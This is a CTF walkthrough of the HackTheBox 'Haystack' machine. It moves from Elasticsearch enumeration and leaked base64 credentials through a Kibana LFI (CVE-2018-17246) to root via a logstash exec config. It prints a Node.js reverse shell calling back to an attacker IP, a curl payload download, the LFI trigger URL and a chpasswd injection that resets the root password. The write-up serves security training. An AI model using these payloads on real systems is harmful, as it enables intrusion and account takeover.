


# Haystack (HACK THE BOX)

Hey Guys, Today we will be doing Haystack from HackTheBox
<br/>
<<logo.png>>
<br/>

## NMAP Scan

```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.115 -Pn -v
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 02:21 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 02:21
Completed Parallel DNS resolution of 1 host. at 02:21, 0.01s elapsed
Initiating Connect Scan at 02:21
Scanning 10.10.10.115 [1000 ports]
Discovered open port 22/tcp on 10.10.10.115
Discovered open port 80/tcp on 10.10.10.115
Discovered open port 9200/tcp on 10.10.10.115
Completed Connect Scan at 02:21, 8.14s elapsed (1000 total ports)
Initiating Service scan at 02:21
Scanning 3 services on 10.10.10.115
Completed Service scan at 02:22, 11.56s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.115.
Initiating NSE at 02:22
Completed NSE at 02:22, 0.81s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Nmap scan report for 10.10.10.115
Host is up (0.18s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    nginx 1.12.2
9200/tcp open  http    nginx 1.12.2

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.92 seconds
```
We have 3 services running so let's start enumerating the port 80 first...

## Webserver Enumeration
<br/>


<br/>
So we have a image only so let's download it and analyse it first...

#### Clues in image

We did strings on the image and find a base64 in it
```
[sarthak@sarthak haystack]$ strings needle.jpg | tail -5
#=pMr
BN2I
,'*'
I$f2/<-iy
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
```
which decodes to this:-
```
[sarthak@sarthak haystack]$ echo "bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==" | base64 -d

la aguja en el pajar es "clave"
```
So after a quick google i found that clave means key but we will just keep it as currently it doesn't make any sense

## Enumeration of Elastic-Search

On port 9200 Elastic Search is running so let's quickly find out all the indices and their contents for that i used [this](https://www.bmc.com/blogs/elasticsearch-commands/) cheatsheet..

<br/>



<br/>

We got 3 indices so from which ```.kibana``` is the default of elastic search so we will enumerate b/w  ```bank``` and ```quotes``` 

### Finding the "Key"

Let's see all the content of ```quotes``` index first using ```http://10.10.10.115:9200/quotes/_search/?size=1000```

<br/>



<br/>
We got this data and from here if we search the key or *clave* in spanish we will find 2 strings...

```
"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}
```
So we can see let's decode the base64 and we'll see what we get...
```
user: security
pass: spanish.is.key
```

## Login as Security user

we used this creds to login to ssh 
```
[sarthak@sarthak haystack]$ ssh security@10.10.10.115
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ECDSA) to the list of known hosts.
security@10.10.10.115's password: 
Last login: Thu Jul  4 12:28:57 2019 from 10.10.14.6
[security@haystack ~]$ id
uid=1000(security) gid=1000(security) grupos=1000(security) contexto=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[security@haystack ~]$ 
```

## Pivoting to Kibana

So i executed this command ```ps aux | grep root``` to see what processes are running as root and found 

```
root       4871  0.0  0.0      0     0 ?        S<   06:07   0:00 [xfs-reclaim/sda]
root       4875  0.0  0.0      0     0 ?        S<   06:07   0:00 [xfs-log/sda1]
root       4876  0.0  0.0      0     0 ?        S<   06:07   0:00 [xfs-eofblocks/s]
root       4879  0.0  0.0      0     0 ?        S    06:07   0:00 [xfsaild/sda1]
root       6113  0.0  0.0  62044  1084 ?        S<sl 06:07   0:00 /sbin/auditd
root       6256  0.0  0.0  26376  1752 ?        Ss   06:07   0:00 /usr/lib/systemd/systemd-logind
root       6370  0.7 13.5 2724972 524524 ?      SNsl 06:07   4:53 /bin/java -Xms500m -Xmx500m -XX:+UseParNewGC -XX:+UseConcMarkSweepGC -XX:CMSInitiatingOccupancyFraction=75 -XX:+UseCMSInitiatingOccupancyOnly -Djava.awt.headless=true -Dfile.encoding=UTF-8 -Djruby.compile.invokedynamic=true -Djruby.jit.threshold=0 -XX:+HeapDumpOnOutOfMemoryError -Djava.security.egd=file:/dev/urandom -cp /usr/share/logstash/logstash-core/lib/jars/animal-sniffer-annotations-1.14.jar:/usr/share/logstash/logstash-core/lib/jars/commons-codec-1.11.jar:/usr/share/logstash/logstash-core/lib/jars/commons-compiler-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/error_prone_annotations-2.0.18.jar:/usr/share/logstash/logstash-core/lib/jars/google-java-format-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/gradle-license-report-0.7.1.jar:/usr/share/logstash/logstash-core/lib/jars/guava-22.0.jar:/usr/share/logstash/logstash-core/lib/jars/j2objc-annotations-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-annotations-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-core-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-databind-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-dataformat-cbor-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/janino-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/jruby-complete-9.1.13.0.jar:/usr/share/logstash/logstash-core/lib/jars/jsr305-1.3.9.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-api-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-core-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-slf4j-impl-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/logstash-core.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.commands-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.contenttype-3.4.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.expressions-3.4.300.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.filesystem-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.jobs-3.5.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.resources-3.7.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.runtime-3.7.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.app-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.common-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.preferences-3.4.1.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.registry-3.5.101.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.jdt.core-3.10.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.osgi-3.7.1.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.text-3.5.101.jar:/usr/share/logstash/logstash-core/lib/jars/slf4j-api-1.7.25.jar org.logstash.Logstash --path.settings /etc/logstash
```

Logstash which runs with elastic search and kibana as a type of combo basically elastic search stores data and kibana visualise it and logstash uploads data on elastic search in bulk...

Let's check the config files of logstash to find any sort of creds ...

```
[security@haystack logstash]$ cd /etc/logstash/conf.d/
[security@haystack conf.d]$ ls -lha
total 12K
drwxrwxr-x. 2 root kibana  62 jun 24 08:12 .
drwxr-xr-x. 3 root root   183 jun 18 22:15 ..
-rw-r-----. 1 root kibana 131 jun 20 10:59 filter.conf
-rw-r-----. 1 root kibana 186 jun 24 08:12 input.conf
-rw-r-----. 1 root kibana 109 jun 24 08:12 output.conf
[security@haystack conf.d]$ cat filter.conf 
cat: filter.conf: Permiso denegado
[security@haystack conf.d]$
```

uh-oh So we can't read the content unless we are either user ```kibana``` or ```root```

So let's search for the kibana service which typically runs on port ```5601``` ...

As netstat wasn't working i used this command ```ss -nutlp```

```
[security@haystack conf.d]$ ss -nutlp
Netid State      Recv-Q Send-Q                    Local Address:Port                                   Peer Address:Port              
udp   UNCONN     0      0                             127.0.0.1:323                                               *:*                  
udp   UNCONN     0      0                                   ::1:323                                              :::*                  
tcp   LISTEN     0      128                                   *:80                                                *:*                  
tcp   LISTEN     0      128                                   *:9200                                              *:*                  
tcp   LISTEN     0      128                                   *:22                                                *:*                  
tcp   LISTEN     0      128                           127.0.0.1:5601                                              *:*                  
tcp   LISTEN     0      128                    ::ffff:127.0.0.1:9000                                             :::*                  
tcp   LISTEN     0      128                                  :::80                                               :::*                  
tcp   LISTEN     0      128                    ::ffff:127.0.0.1:9300                                             :::*                  
tcp   LISTEN     0      128                                  :::22                                               :::*                  
tcp   LISTEN     0      50                     ::ffff:127.0.0.1:9600                                             :::*                  
[security@haystack conf.d]$ 
```

And we can see kibana service is running on port 5601 localhost so now we shall look for any public exploits to priv esc

## Pivoting to Kibana user

So from quick google search ```kibana exploit``` i found [this](https://github.com/mpgn/CVE-2018-17246)

#### LFI vulnerability to rce 

We have to upload a node javascript reverse shell to a writable directory(*tmp*) and shell is also available on same article

So my shell looked like this 

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1232, "10.10.14.4", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();

```
This will pop a shell on port ```1232``` so let's quicky send this file to ```/tmp``` directory by curl...

```
[security@haystack conf.d]$ cd /tmp
[security@haystack tmp]$ curl http://10.10.14.4:8081/shell.js > shell.js
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   381  100   381    0     0   1032      0 --:--:-- --:--:-- --:--:--  1035
[security@haystack tmp]$ ls
hsperfdata_root  systemd-private-b988296bb1284929b1de3e26dcb561bd-chronyd.service-RlZfgD
jruby-6370       systemd-private-b988296bb1284929b1de3e26dcb561bd-elasticsearch.service-hRFCKr
shell.js         systemd-private-b988296bb1284929b1de3e26dcb561bd-nginx.service-tVzzr5
[security@haystack tmp]$ 
```
Now we will trigger the LFI with this payload and we will get shell at our listener

```
curl "http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js"
```
and we got our shell

```
[sarthak@sarthak haystack]$ nc -nvlp 1232
Connection from 10.10.10.115:41904
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.2$ pwd
pwd
/
```
Now we can look at the contents of those config files...

## Privilege Escalation

**Filter.conf**
```
bash-4.2$ ls
ls
filter.conf  input.conf  output.conf
bash-4.2$ cat filter.conf
cat filter.conf
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
bash-4.2$
```
So this is reading some sort of message and execute it let's see another files to make more sense out of it...

**Input.conf**
```
cat input.conf
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
```

So this config is taking any file which starts with ```logstash_```  Now let's see what last config has

**Output.conf**

```
cat output.conf
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```

It basically executing the command which it received in that ```logstash_*``` file ...

#### Payload creation 

So let's create a payload which will match the conditions of ```input.conf``` 

```
Payload:-echo 'Ejecutar comando : echo "root:pwned@123"|chpasswd' > logstash_haha
```

File will be created as ```logstash_haha``` and payload will change the root password to ```pwned@123```

Let's quickly try this and create this file in ```/opt/kibana/``` as mentioned in ```input.conf```

```
pwd
/opt/kibana
bash-4.2$ echo 'Ejecutar comando : echo "root:pwned@123"|chpasswd' > logstash_haha
<mando : echo "root:pwned@123"|chpasswd' > logstash_haha                     
bash-4.2$ cat logstash_haha
cat logstash_haha
Ejecutar comando : echo "root:pwned@123"|chpasswd
bash-4.2$
```

Now we wait for some time  also i noticed that if your payload doesn't work create another file with ```logstash_``` in the start but change the end part everytime, i might be wrong but whenever i tried to create same file again my payload will not execute...

#### Root-Shell

```
[security@haystack tmp]$ su root
Contraseña: 
[root@haystack tmp]# id
uid=0(root) gid=0(root) grupos=0(root) contexto=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@haystack tmp]# cd /root
[root@haystack ~]#
```
<br/>


<br/>
Finally we did it ...this ctf was really a nice one i enjoyed it well mostly because i haved used *ELK* a.k.a *elasticsearch-logstash-kibana* in my project ..Stay tuned for more :)
